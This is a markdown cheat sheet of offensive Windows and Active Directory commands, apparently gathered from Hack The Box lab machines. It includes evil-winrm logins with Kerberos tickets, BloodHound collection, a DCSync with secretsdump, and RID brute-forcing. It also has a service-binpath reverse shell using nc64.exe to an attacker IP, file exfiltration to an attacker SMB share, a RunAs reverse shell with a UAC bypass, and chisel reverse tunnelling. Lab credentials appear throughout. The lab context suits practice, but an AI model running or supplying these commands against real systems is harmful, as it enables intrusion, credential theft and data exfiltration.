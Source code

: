 ___


*Connecting with evil-winrm with KRB ticket*

*This worked for win-rm* -> this has to be the ugliest command I have ever written

```
KRB5CCNAME=./svc_winrm.ccache sudo docker run --rm -it -v "./svc_winrm.ccache:/tmp/krb5cc_0" -v "./krb5.conf:/etc/krb5.conf" -v "/etc/hosts:/etc/hosts:ro" evil-winrm -i dc.voleur.htb -k -u svc_winrm -r VOLEUR.HTB 
```


 *NTLM authentication*
 ```
 sudo docker run --rm -it evil-winrm -i 10.10.11.108 -u 'svc-printer' -p 'password123' 
 ```


Note
---
Are you using Kerberos or NTLM authentication? Pay attention the commands may change!


*Generating TGT for user*
```
nxc smb frizzdc.frizz.htb -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' --generate-tgt f.frizzle
```

*Grabbing bloodhound info*
```
bloodhound-python -u 'svc-printer' -p '1edFg43012!!' -ns 10.10.11.108 -dc printer.return.local -d return.local -c All  
```

*Starting Bloodhound (neo4j needs to be running)*
```
start neo4j
sudo neo4j console
```

*Useful Impacket Scripts*
```
getST.py
ntlmrelayx.py
secretsdump.py
```

*DCsync attack*
```
secretsdump.py 'puppy.htb'/steph.cooper_adm:'FivethChipOnItsWay2025!'@10.10.11.180 
```

*Rpcclient guest with no password*
```
rpcclient 10.10.11.108 -U 'guest%' 
rpcclient $> lookupnames administrator
```

*Lookupsids*
```
lookupsid.py svc-printer@10.10.11.108
or
netexec smb 10.10.11.222 -u guest -p '' --rid-brute
```


*Uses SAM remote interface to enumerate users, works over smb/RPC*
```
samrdump.py return.local/svc-printer:'1edFg43012!!'@10.10.11.108 
```


*powershell/cmd enumeration*
--
whoami /priv
whoami /groups

sc.exe query -> list running services

*list services*
```
 $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
```


*Services*
---

*Adding a service*
```
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
```

*Running service on attacker machine*
```
sc.exe start VSS
```


*Exfil*
---

*List all open ports*
```
netstat -a 
```

*Copy docker files in and out of container*
```
sudo docker cp 245f71c07597:/data/site-backup-2024-12-30.zip ./loot/site-backup-2024-12-30.zip
```

*Start smb server for file transfer from windows*
```
smbserver.py share . -username 0xdf -password 0xdf -smb2support
```

 *Use share*
```
net use \\10.10.14.6\share /u:0xdf 0xdf
```

*copy to share*
```
copy data\gitea.db //10.10.14.6/share/
```
``

*Extras*
---

*RunAs.exe command*
```
.\r.exe openfire 'HotP!fireguard' powershell -r 10.10.14.6:444 --logon-type 5 --bypass-uac
```


*Chisel Command (rev proxy for tunneling)*
on attacker machine
```
./chisel_1.10.1_linux_amd64 server --reverse --port 7878
```
on target
```
chisel.exe client 10.10.14.24:7878 R:9090:127.0.0.1:9090 
```



